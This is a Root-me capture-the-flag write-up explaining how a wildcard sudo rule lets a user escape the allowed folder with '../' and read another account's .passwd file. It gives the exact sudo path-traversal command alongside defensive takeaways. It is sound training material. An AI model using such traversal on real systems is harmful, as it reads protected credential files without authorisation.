 ```yaml
---
title: "Sudo - Weak Configuration - Root-me Write-up"
date: 2025-06-17
tags: ["Root-me Write-up"]
---
```


This challenge demonstrates a sudo misconfiguration vulnerability that allows a low-privileged user to read a protected file by exploiting a lack of proper path sanitization.

**Goal**

Read the `.passwd` file from the `app-script-ch1-cracked` user, despite having seemingly restricted sudo permissions.

**Exploitation Steps**

1. Check Allowed sudo Commands

We check the allowed sudo permissions using `sudo -l`:

```bash
~$ sudo -l
[...]
User app-script-ch1 may run the following commands on this host:
   (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```
2. Bypass the Path Restriction with `..`

Although the command appears to restrict access to a specific folder, it does not prevent path traversal. We can use `../` in the file path to escape the allowed directory and access sensitive files:

```bash
~$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
```
This works because `/challenge/app-script/ch1/ch1/../ch1cracked/.passwd` resolves to `/challenge/app-script/ch1/ch1cracked/.passwd`, which is outside the intended restricted directory, but still allowed by the loose wildcard pattern.

**Conclusion**

This challenge effectively highlights how improper use of wildcards in sudo configurations can lead to privilege escalation through path traversal.

Key takeaways:

- Always validate and sanitize paths when delegating commands via `sudo`.

- Avoid using wildcards (`*`) without additional checks, especially in conjunction with sensitive file paths.

- Restrict sudo rules with tools like sudoedit, or use command wrappers that enforce strict path checks.
